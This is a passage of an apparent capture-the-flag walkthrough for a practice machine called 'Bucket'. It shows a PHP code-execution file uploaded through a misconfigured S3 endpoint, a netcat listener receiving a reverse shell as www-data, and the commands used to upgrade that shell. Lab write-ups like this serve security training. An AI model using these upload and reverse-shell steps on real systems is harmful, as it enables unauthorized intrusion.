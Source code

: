 * https://docs.aws.amazon.com/systems-manager/latest/userguide/integration-s3-shell.html	
  
I had found this page that seemed to talk about running shell scripts, but uploading and running my reverse shell on the server failed as well.

```
┌──(zweilos㉿kali)-[~/htb/bucket]
└─$ aws s3 cp --endpoint-url http://s3.bucket.htb ~/php-code-exec.php s3://adserver
upload: ../../php-code-exec.php to s3://adserver/php-code-exec.php
                                                                                                       
┌──(zweilos㉿kali)-[~/htb/bucket]
└─$ aws --endpoint-url http://s3.bucket.htb/ s3 ls s3://adserver/
                           PRE images/
2021-03-14 19:33:04       5344 index.html
2021-03-14 19:34:18         42 php-code-exec.php
                                                                                                       
┌──(zweilos㉿kali)-[~/htb/bucket]
└─$ aws --endpoint-url http://s3.bucket.htb/ s3 ls s3://adserver/
                           PRE images/
2021-03-14 19:35:04       5344 index.html
```

Since the initial upload folder did not allow me to execute PHP, I tried uploading it to another folder using directory traversal.  The folder was cleaned up quickly, though, so I had to keep trying to get my reverse shell to execute.

## Initial Foothold

```
┌──(zweilos㉿kali)-[~/htb/bucket]
└─$ script                                                                                         1 ⨯
Script started, output log file is 'typescript'.
┌──(zweilos㉿kali)-[~/htb/bucket]
└─$ bash                                                             
zweilos@kali:~/htb/bucket$ nc -lvnp 8090
listening on [any] 8090 ...
connect to [10.10.14.158] from (UNKNOWN) [10.10.10.212] 47228
Linux bucket 5.4.0-48-generic #52-Ubuntu SMP Thu Sep 10 10:58:49 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 23:52:03 up  3:08,  0 users,  load average: 1.59, 6.00, 4.19
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty;pty.spawn("/bin/bash")'
/bin/sh: 1: python: not found
$ which python3
/usr/bin/python3
$ ptyhon3 -c 'import pty;pty.spawn("/bin/bash")'
/bin/sh: 3: ptyhon3: not found
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@bucket:/$ ^Z
[1]+  Stopped                 nc -lvnp 8090
zweilos@kali:~/htb/bucket$ stty raw -echo
speed 38400 baud; rows 46; columns 103; line = 0;
                                                 intr = ^C; quit = ^\; erase = ^H; kill = ^U; eof = ^D; eol = <undef>; eol2 = <undef>; swtch = <undef>;
                                                start = ^Q; stop = ^S; susp = ^Z; rprnt = ^R; werase = ^W; lnext = ^V; discard = ^O; min = 1; time = 0;
                                               
                                                                                                      znc -lvnp 8090a:~/htb/bucket$                                                                           

www-data@bucket:/$ stty rows 46 columns 103
```